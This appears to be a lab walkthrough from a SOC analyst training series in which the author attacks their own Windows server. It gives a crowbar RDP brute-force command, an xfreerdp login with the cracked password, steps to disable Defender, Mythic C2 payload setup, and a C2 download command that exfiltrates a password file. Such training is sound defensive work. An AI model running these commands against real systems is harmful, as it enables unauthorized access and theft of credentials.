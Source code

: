 # MyDFIR 30-Day SOC Analyst Challenge Task 21
[Link to full briefing](https://www.youtube.com/watch?v=85x0NLj2zUo) of Task 21 </br>
Creator of Exercise: MyDFIR (Steven)

## Task:
Almost ready to try and execute a model cyber attack on our created system. </br>
But before that, some small tasks are required to be done: </br>
1. Changing our Windows Server's password, and having that password stored somewhere in its system in a text file, as our target asset. </br>
2. To simulate a brute force attack, another common passwords list that would be sitting in our Kali Linux VM </br>

### Small Task 1: Changing our Windows VM's password
Logging into our Windows Server from Vultr, choose a directory where the machine's password file will be sitting. In my demo walkthrough, it's in Documents, and will be called Passwords_Q1_2025.txt . 

Pick a unique password and keep that value into the text file. 
After that, change the password of the Windows machine to the value chosen. (shown in video from [here](https://youtu.be/85x0NLj2zUo?si=Vyn-M3wv6zoudZ_E&t=140))

Keep a copy of that value too, as you will need it in the 2nd small task next. 

### Small Task 2: Installing and Configuring Attack Laptop VM (Kali Linux)
Kali Linux should be installed from Day 20. Log into the Kali VM on the workstation.

To simulate a list of common passwords, Kali provides a collection of passwords for our usage. To navigate to that, see video from [here](https://youtu.be/85x0NLj2zUo?si=iq6ll5sVEPJxt2uc&t=264), and append the password from Small Task 1 to it. 

The final result would be a customised password list created from Kali's issued list of common passwords, with the Small Task 1's passwords appended to it, at the bottom. 

You can use `tail -5 custom-password-listname.txt` to ensure it's added in successfully. This command helps print the last 5 passwords of the list.  

### Executing a Model Cyber Attack
#### Phase 1 - Initial Access
Now that both small tasks are done, the next thing is to now start simulating the cyberattack. What the stages of this cyber attack are mentioned and designed in Day 19. 

To begin, the first phase is Initial Access. 

![image](walkthru_pics/phase_one_IA.jpg)

The set-up for this begins a little bit after the creating the custom passwords list. The first step will involve installation of the crowbar package. 

Crowbar helps us simulate a brute force attack with the custom-password list created to enter our Windows Machine. Details you will require is the username in the Windows machine 
(if followed along in the series, there's only one username), its IP address assigned by Vultr, and the name of the custom passwords file. 

The command to simulate the attack looks like this: </br>
`crowbar -b rdp -u Username-in-Windows -C custom-password-listname.txt -s <IP Address of Windows Server>/32`
The flags of the commands represent the following: </br>

1. -b = bruteforce attack to be executed with a certain protocol or application. 
2. -u = username. A small "u" flag is used if there's one static username for the machine. Else, it's a "U" to try multiple usernames
3. -C = password file. Capital C as its meant to represent the usage of multiple passwords from the file. 
4. -s = For a single target's IP address. 

When successful, a message like below would appear, with the Public IP - Password in plaintext form:

![image](walkthru_pics/blocked_success.jpg)

The password would be the one of the same value from Small Task 1. 

Now, it's understood what password value works from the Kali Linux machine (the attacker's device). In order for the Kali Linux VM to truly access the 
target machine, the next command run is done with the tool, xfreerdp.

The command will look like this: `xfreerdp /u: Username-in-Windows /p: <Password found in previous command> /v: <IP Address of Windows Server>:<Port Number>`

The end result would be seeing the Windows Server's desktop from the Kali Linux VM. 

Now, Phase 1, Initial Access is completed. Onwards to Phase 2. 

#### Phase 2 - Discovery
Now that access into the Windows Server is done, the next thing to do is to run some discovery commands. 

![image](walkthru_pics/phase_two_discovery.jpg)

That's in this [portion of the video](https://youtu.be/85x0NLj2zUo?si=SlV1SwA49B3cb5_D&t=660). 

Executing these commands is to simulate what the common discovery commands are used, and to create telemetry. 
These would act as "signs" of a compromise in IR later. 

Onward to Phase 3. 

#### Phase 3: Defense Evasion 
In order to make our Windows Server vulnerable to "attacker" inputs from our Kali VM, Windows Defender can be disabled. 
That's done as shown [here](https://youtu.be/85x0NLj2zUo?si=UWndd_7UyUNA5j5O&t=731). 

After that, Phase 4. 

#### Phase 4: Execution
The next step is Execution. But execute what? This requires creating a payload. Which can be done inside our Mythic Server (installed in Day 20, and invoking a Web GUI). 

![image](walkthru_pics/phase_four_execution.jpg)

In case you've started Day 21's activities after logging out from all servers after completing Day 20, this is the series of commands to run to enter back the Mythic Server. 
This will mean dependencies like Docker-compose, Mythic and Make are working in this machine and credentials to enter the GUI are in reach. 

Series of commands: </br>
1. ssh root@Public-IP-of-Mythic-Server
2. apt-get update && apt-get upgrade -y
3. cd Mythic
4. make
5. systemctl status Docker (should be successfully running)
6. ./mythic-cli start

And then enter the Web GUI with http://Public-IP-of-Mythic_Server:7443

Once inside the server, proceed with the installation of Mythic agents. That portion of video will begin [here](https://youtu.be/85x0NLj2zUo?si=80VSIO60jeAX8aJB&t=770)

Sources used here:
i. [For Mythic Agents](https://github.com/mythicagents) </br>

The end goal of this phase is to ensure the payload created is Running (can be checked via Task Manager). 

When this is visible, it's possible to move onto Phase 5. 

#### Phase 5: Command and Control
Now that the executable is running in our target Windows Server, it can now accept commands or keystrokes from our attack Linux machine. 
For this, it will involve reverting back to the Mystic GUI, and following along from this [point of the video](https://youtu.be/85x0NLj2zUo?si=cXkKqrGehVDlAuCQ&t=1420)

![image](walkthru_pics/phase_five_c2.jpg)

With a few commands tested out, and if details are received back, then it's proof that the C2 connection is working between the Mythic Server and Target machine. 

![image](walkthru_pics/phase_five_test_of_c2_connection.jpg)

After this, the last is to exfiltrate out the password file from our Windows Server. 

#### Phase 6: Exfiltration

![image](walkthru_pics/phase_six_exfiltrate.jpg)

For this, a download command is used `download [path to Password file in Windows Machine]`. When received, it will get reflected into the Mystic GUI like so: </br>

![image](walkthru_pics/phase_six_success_in_exfil.jpg)

That is then noted as a successful exfiltration of our target asset from the Windows Server.

### Firewall settings
For this exercise, it's best to make sure the Mythic server is only open to talking to our target machines (the Windows Server, Ubuntu Server) and our workstartion machine (in case there are extra commands or packages to install to the Mythic Server). One extra firewall will be configured for that for our "attacker" infrastructure. 


### Installation
As per [video](https://www.youtube.com/watch?v=JKO1pZ45_5I)


### Credits:
Full credits to MyDFIR (Steven) for putting together this exercise
















